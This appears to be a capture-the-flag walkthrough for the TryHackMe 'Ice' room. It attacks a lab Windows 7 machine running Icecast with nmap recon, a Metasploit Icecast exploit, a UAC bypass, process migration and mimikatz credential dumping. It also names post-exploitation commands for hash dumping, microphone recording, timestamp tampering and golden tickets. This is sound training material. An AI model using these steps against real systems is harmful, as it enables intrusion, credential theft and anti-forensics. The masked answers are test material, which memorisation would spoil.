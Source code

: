 # Ice

[Link to room](https://tryhackme.com/room/ice)

echo machine-ip ice.com >> /etc/hosts

## Recon
nmap -sC -sV -oN nmap_ice ice.com

```nmap
Nmap 7.80 scan initiated Wed Jun 17 08:47:27 2020 as: nmap -sC -sV -oN nmap.txt ice.com
Nmap scan report for ice.com (10.10.18.254)
Host is up (0.21s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
5357/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
8000/tcp  open  http         Icecast streaming media server
|_http-title: Site doesn't have a title (text/html).
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h40m01s, deviation: 2h53m12s, median: 0s
|_nbstat: NetBIOS name: DARK-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:20:c4:25:26:e0 (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Dark-PC
|   NetBIOS computer name: DARK-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-06-17T07:48:40-05:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-06-17T12:48:40
|_  start_date: 2020-06-17T12:45:36

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jun 17 08:49:53 2020 -- 1 IP address (1 host up) scanned in 146.39 seconds
```
1. One of the more interesting ports that is open is Microsoft Remote Desktop (MSRDP). What port is this open on?

> MSRDP default port is 3389

2. What service did nmap identify as running on port 8000?

> check nmap results

3. What does Nmap identify as the hostname of the machine?

> check nmap results 

## Gain Access

[link to CVE](https://www.cvedetails.com)

1. What type of vulnerability is it?

> visit link to get the answer

2. What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000

> visit link to get the answer

3. start metasploit and search icecast

> exploit/??????/http/?????_header

4. What is the only required setting which currently is blank?

> run show options

Exploit the machine

## Escalate

1. What's the name of the shell we have now?

> run the exploit to answer the question

2. hat user was running that Icecast process?

> run getuid to answer the question

3. What build of Windows is the system?

> run sysinfo to answer the question

4. run the following command `run post/multi/recon/local_exploit_suggester`

```
[*] 10.10.18.254 - Collecting local exploits for x86/windows...
[*] 10.10.18.254 - 30 exploit checks are being tried...
[+] 10.10.18.254 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.18.254 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[+] 10.10.18.254 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.18.254 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
```

5. What is the full path (starting with exploit/) for the first returned exploit?

> exploit/windows/?????/bypassuac_???????

run bg to background our meterpreter session

```
use exploit/windows/local/bypassuac_eventvwr
set session SESSION_NUMBER
set LHOST to your tun0 ip
```

6. run getprivs in meterpreter shell
```
meterpreter > getprivs 

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```

> SeTake????????Privilege

## Looting

```
run ps to see list of processes
migrate -N  spoolsv.exe
```
1. run getuid you see that we are system same as root in linux machines

> NT AUTHORITY/??????

2. run load kiwi to load mimikatz

> run help and you will a mimikatz help section

3. What is Dark's password?

> Pass??????1!

## Post Exploitation

1. What command allows us to dump all of the password hashes stored on the system?

> help (????dump)

2. what command allows us to watch the remote user's desktop in real time?

> help (screen?????)

3. How about if we wanted to record from a microphone attached to the system?

> help (record_???)

4. To complicate forensics efforts we can modify timestamps of files on the system. What command allows us to do this? 

> help (time?????)

5. Mimikatz allows us to create what's called a `golden ticket`, allowing us to authenticate anywhere with ease. What 
command allows us to do this?

> help (golden_ticket_??????)
